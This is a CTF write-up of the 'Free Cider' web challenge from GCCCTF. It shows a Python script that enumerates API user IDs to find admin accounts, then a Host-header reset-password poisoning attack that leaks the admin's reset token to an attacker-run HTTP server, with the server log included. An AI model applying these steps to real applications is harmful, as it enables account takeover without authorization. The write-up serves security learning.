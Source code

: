 ```yaml
---
title: GCCCTF - Writeup
date: 2024-02-03 10:11:53 +/-0800
categories: [writeup, CTF]
writeup: :title
permalink: /gccctf
tags: [CTF, Web]     # TAG names should always be lowercase
---
```


**Author:** Anackin, Talace

# WEB : **Free Cider**

In the app’s source code we can see a message for admins : 

![note](assets/gccctf/note.png)

So it would seem that there is a swagger that referres the endpoints of an api and it is still up, before let’s analyse the web app so we can login with user password and we can reset password using only user. 

![login](assets/gccctf/login.png)

![reset](assets/gccctf/resetpass.png)

Using burpsuite I intercept the http request and we can  find an api endpoint. 

![endpoint](assets/gccctf/endpoint.png)

To acces the api swager go to `/api/v1/swagger.json`. 

![swagger](assets/gccctf/swagger.png)

The most interresting endpoint is the GET, to find users using an ID. 

![userid](assets/gccctf/userid.png)

The admin parameter is set to false, maybe we need to find all admin account for that I quickly created a python script to fuzz the admin account : 

```python
import requests 

for i in range(50): 
        url=f"""http://worker05.gcc-ctf.com:12283/api/v1/user/{i}"""
        r = requests.get(url)
        print(r.text)
```

Run the script using bash command like this : 

```python
> python fuzz.py > admin.txt && cat admin.txt | grep 'admin":true'
{"admin":true,"id":9,"username":"monique_petersen12"}
{"admin":true,"id":24,"username":"zachary_rodriguez35"}
{"admin":true,"id":31,"username":"vicki_savage190"}
```

after that I try to find mass assignement vulnerability, but I didn’t found suspicious http requests like PUT on any api endpoints. 

I also try to put other parametres on api endpoint  request but that didn’t work. 

I think we need to abuse the endpoint `/api/v1/reset-password` to reset admin password. 

And yeah I saw right, we can do  a **reset password poisoning,** for that launch a request to the endpoint `/api/v1/reset-password`

On the http request change the Host header to a server you have under control like this : 

![request-reset](assets/gccctf/request-reset.png)

Ps* don’t forget to start an http server, in my case I used a VPS !

```python
python3 -m http.server 80
```

Launch the request and see the leaked token send by the target server to reset the admin’s account password

```python
172.234.63.85 - - [02/Mar/2024 17:43:52] code 404, message File not found
172.234.63.85 - - [02/Mar/2024 17:43:52] "GET /reset?token=12cb3489-0ff1-4680-9a17-b5ffc16d73e5 HTTP/1.1" 404 -
```

Go to your browser and use the token to gain access on the reset page. 

![token](assets/gccctf/reset-pass.png)

Use this password and the admin’s account affiliated to log in the app and get the Flag GG ! 😼

Thanks to Mika to this API challs ! we learn a lot.

